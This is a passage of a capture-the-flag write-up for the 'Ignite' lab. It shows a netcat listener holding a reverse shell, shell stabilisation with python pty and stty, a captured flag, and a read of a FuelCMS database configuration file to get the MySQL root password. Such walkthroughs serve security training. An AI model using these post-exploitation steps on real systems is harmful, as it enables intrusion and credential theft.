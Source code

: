 And we have the shell in our listener but it's not stable so we'll going through a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) .

## Shell Stabilization

```
www-data@ubuntu:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$ export TERM=xterm
export TERM=xterm

www-data@ubuntu:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                   
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@ubuntu:/$ 

```

Now we have a more stabile shell to work with.
# Privilege Escalation

We can find the first flag :

```
www-data@ubuntu:/home$ cd www-data/
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt 
6470e394cbf6dab6a91682cc8585059b 
```

And continue with the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to find the root flag, first thing we check for permissions with `sudo -l` but we don't have access without password .

One of the first things I checked was the database connection configuration file. On this host it was located at /var/www/html/fuel/application/config/database.php. This file contained the password for the root user for MySQL server :

```
www-data@ubuntu:/$ cat /var/www/html/fuel/application/config/database.php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|       ['dsn']      The full DSN string describe a connection to the database.
|       ['hostname'] The hostname of your database server.
|       ['username'] The username used to connect to the database
```